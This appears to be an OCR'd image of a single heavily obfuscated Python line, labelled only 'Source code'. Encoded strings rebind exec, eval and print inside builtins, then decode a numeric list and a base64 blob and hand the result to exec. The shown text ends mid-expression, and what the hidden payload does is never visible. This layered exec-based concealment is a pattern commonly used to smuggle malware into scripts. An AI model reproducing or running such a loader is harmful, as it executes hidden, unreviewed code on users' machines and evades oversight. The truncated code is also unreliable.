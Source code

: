 ```
_=lambda OO00000OOO0000OOO,c_int=100000:(_OOOO00OO0O00O00OO:=''.join(chr(int(int(OO00000OOO0000OOO.split()[OO00O0OO00O0O0OO0])/random.randint(1,c_int)))for OO00O0OO00O0O0OO0 in range(len(OO00000OOO0000OOO.split()))));eval("".join(chr(i) for i in [101,120,101,99]))("\x73\x65\x74\x61\x74\x74\x72\x28\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f\x2c\x22\x5f\x5f\x5f\x5f\x5f\x5f\x22\x2c\x70\x72\x69\x6e\x74\x29\x3b\x73\x65\x74\x61\x74\x74\x72\x28\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f\x2c\x22\x5f\x5f\x5f\x5f\x5f\x22\x2c\x65\x78\x65\x63\x29\x3b\x73\x65\x74\x61\x74\x74\x72\x28\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f\x2c\x22\x5f\x5f\x5f\x5f\x22\x2c\x65\x76\x61\x6c\x29");__='600840 10052792 2475510 107811 3460338 725070 743968 2892000 2595808 1123520 4498098 4658724 9505818 3510345 255392 146490 5557929 9774387 9643374 676195 8169140 8968656 7951905 2729216 6994785 2809039 2272480 238206 8998248 10083880 1132512 1887269 9978295 4040976 199290 720029 6381240 390456 4855272 5536608 8270336 5334956 137240 1950112 813888 1000864 14176 4719645 7434130 4414928 6253299 9947928 1058600 1230358 2126544 2411955 8232000 3136064 3545955 10065990 11478610 1845676 5793228 1659528 8606412 2662784 9252354 3826789 8515228 10136529 9876386 4503170 4636636 3050030 2304864 8648920 3476588 1063810 6624464 4304298 1150491 8042410 11245620 2352544 7278969 5070780 3834960 143016 6244008 3168128 11537244 1865133 1213344 1977057 519120 3126900 1538392 2683994 3910416 125890 1943840 169376 2568608 2306112 1493210 846355 4957785 3989836 8217104 10113987 6212658 6166328 5037850 7088140 89080 2665299 9719915 11920920 8955970 163995 576706 283176 3952332 6138720 8659980 10319940 3459800 1280676 161860 51870 2435250 6931656 3196522 1527030 341905 7265895 9809455 5280688 6588183 1684008 10751112 3620735 3711935 2101440 809948 7445910 7656305 6875824 7874685 7469960 4394725 5493528 3843530 1205130 2690707 1967374 2228611 1179175 1150372 171600 701454 4804904 669900 5363840 4755408 11124985 3124634 2961893 2837437 10306240 6771644 3092793 3541328 182988 7504380 2047000 2964060 3378704 8487488 7190998 3697158 1008513 9005208 7376139 3927743 9552368 2742597 5133926 6206652 2311680 3009798 833028 10506608 3530296 4332300 1356850 2624527 2751793 2669733 2394070 3060196 9653172 845520 3047668 1129650 1732414 1747310 6141852 3553786 8646840 10742180 287180 1469024 8047488 11999933 3563346 859220 420224 1719072 288032 236160 8018628 6755070 3157506 9098557 82624 8832714 3347765 2617768 861504 1658215 5273592 2594072 661024 902160 6018871 5059712 9333546 5543478 10761204 2640896 8903453 1575480 7633185 2561625 10578968 1218540 2351744 2321307 6116045 1633408 7015763 5559960 703580 194336 3119584 275968 733760 8284032 10978086 2905647 3348153 823648 7268835 6811105 2865536 6322155 8007685 196784 7085907 1614012 2185672 1955680 2770597 3622466 1278320 2700033 3743630 6963888 713088 5437432 1507305 2370048 8338983 4488036 4277988 9789636 9784072 5294239 4570980 2052020 2932737 873420 692064 2712832 1440256 493184 2269836 5935947 2087019 3347070 9042473 2466925 1163640 715299 5119400 61600 6803360 3070472 3586505 7106652 2033070 3448770 1332254 3203700 10746064 3431176 5216964 6666840 4895988 1158993 1447466 1891930 7078112 6234472 5222771 3231394 5588080 4378418 11000396 10886880 8793728 1153926 5624706 10051328 4147000 877546 3422952 2137083 9117108 160089 559164 5589552 1199496 4719258 5596015 6874390 2490348 1775612 1560720 4793584 715768 4420870 1858864 1768731 6089081 782892 9675759 443322 3954581 1434120 5588080 7513732 9453620 9258872 2909040 2799450 94254 10129700 9949920 11461032 497182 218660 779670 2491648 2679584 494368 352064 4780650 2815914 294496 7500159 7957680 3969000 180320 2806720 695360 4723901 2923730 6454392 9958698 3237507 9151509 4419136 548540 636352 2456512 1158016 760864 1530048 1579104 2585568 430784 2442792 6334013 8462433 5897208 1869828 4518740 3117160 5861968 1116906 2769468 816450 2827072 1415232 1191040 2284736 8500463 5873256 4862550 8653986 474048 4160392 11480880 2319080 5977776 4726700 1302857 2626355 2011353 6087816 4281612 7839 8072324 1344846 941040 376416 1535392 25216 1638144 940672 908128 1618464 2692032 10648056 9403706 9440490 4338990 8526326 10022230 3095680 5052656 1556850 3580776 899200 322624 1953120 70272 295072 4593225 1466046 1091200 6202410 2524200 3669480 7108528 2021742 3980813 775188 2749880 879060 7325537 2466936 3110290 5079795 2893968 18560 2327936 929024 2551104 2492384 250208 2255232 2757472 1236384 1442994 8935815 6523840 4058288 758816 5608275 159264 4936678 7766440 635360 3872280 3241388 98154 46120 2160368 1370625 2638555 1671604 1677458 10174381 1842902 2885703 1477056 2982847 11056675 3048096 4126658 5386576 8473294 255852 9015797 5719266 523215 5380544 7602876 3131200 3952665 5033820 6584982 3005160 3080910 7898256 1513884 2341428 858130 2530240 1594784 2112896 2613536 9160801 10402320 9666407 2264229 3761800 3583302 3224816 6873656 7062880 2358440 1934464 2074850 443128 2641596 11325900 7407946 5716016 5132800 3202520 2705549 2412399 473240 41376 1962080 2383136 2582624 116230 8708018 5645880 6635178 8949913 7043904 9106580 3237618 801350 193792 558464 1907744 2121536 7285534 6910080 4454403 7914654 3865800 9856668 3906900 1701828 590760 464890';why,are,you,reading,this,thing,huh="\x5f\x5f\x5f\x5f","\x69\x6e\x28\x63\x68\x72\x28\x69\x29\x20\x66\x6f","\x28\x22\x22\x2e\x6a\x6f","\x72\x20\x69\x20\x69\x6e\x20\x5b\x31\x30\x31\x2c\x31\x32\x30\x2c","\x31\x30\x31\x2c\x39\x39","\x5f\x5f\x29\x29","\x5d\x29\x29\x28\x5f\x28";b='eJxzdK8wccz1A+IwYyBt6OheketYHmYKAFuyB3k=';____("".join (chr (int (OO00O0OO00O0O0OO00 /2 ))for OO00O0OO00O0O0OO00 in [202 ,240 ,202 ,198 ] if _____!=______))(f'\x5f\x5f\x5f\x5f\x28\x22\x22\x2e\x6a\x6f\x69\x6e\x28\x63\x68\x72\x28\x69\x29\x20\x66\x6f\x72\x20\x69\x20\x69\x6e\x20\x5b\x31\x30\x31\x2c\x31\x32\x30\x2c\x31\x30\x31\x2c\x39\x39\x5d\x29\x29({____(base64.b64decode(codecs.decode
```